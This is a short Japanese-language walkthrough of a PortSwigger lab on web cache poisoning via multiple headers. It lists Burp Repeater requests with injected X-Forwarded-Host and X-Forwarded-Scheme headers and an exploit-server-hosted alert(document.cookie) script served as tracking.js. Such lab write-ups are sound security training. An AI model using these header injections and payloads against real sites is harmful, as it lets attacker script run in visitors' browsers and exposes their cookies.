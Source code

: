 # 複数のヘッダーによる Web キャッシュ ポイズニング

以下のハッキングラボを実施  
https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-multiple-headers  
このラボには、複数のヘッダーを使用して悪意のあるリクエストを作成した場合にのみ悪用可能な Web キャッシュ ポイズニングの脆弱性が含まれています。

- 1. BurpSuite を起動して、Proxy タブからブラウザを立ち上げます

* 2. ハッキングラボにアクセスします
* 3. 以下のリクエストを send to repeater します

```
GET /resources/js/tracking.js HTTP/2
```

- 4. リクエストに以下のヘッダーを付加して送信します

```
X-Forwarded-Host: example.com
X-Forwarded-Scheme: http
```

レスポンスでリダイレクト先が次のようにセットされます

```
Location: https://example.com/product?productId=1
```

- 5.  エクスプロイトサーバに移動します
- 6.  ファイル名を /resources/js/tracking.js、ボディに alert(document.cookie)をセットして、保存します
- 7.  リピーターのリクエストヘッダーを変更します

```
X-Forwarded-Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net
```

- 8.  X-Cache:hit のレスポンスが返るまで上記リクエストを送信します
- 9.  ブラウザをリロードするとスクリプトが実行されます
